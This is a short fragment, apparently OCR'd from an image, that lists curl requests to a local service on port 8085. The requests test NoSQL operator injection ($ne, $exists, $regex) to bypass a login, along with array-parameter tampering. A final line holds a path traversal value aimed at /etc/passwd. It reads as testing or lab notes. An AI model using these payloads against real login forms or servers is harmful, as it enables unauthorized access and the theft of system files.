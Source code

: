 



curl -d username[$exists]=true&password[$exists]=true -XPOST localhost:8085



curl -d "username=admin&password=" -XPOST localhost:8085

username[$exists]=true&password[$exists]=true


curl -d "username[$ne]=toto&password[$ne]=toto" -X POST localhost:8085


curl -d "username[$ne]=toto&password[$regex]=a.{2}" -X POST localhost:8085



curl -d "username="{$func": "var_dump"}&password=" -XPOST localhost:8085


curl -d "username[]=a&password=b" -X POST localhost:8085

file=../../etc/passwd
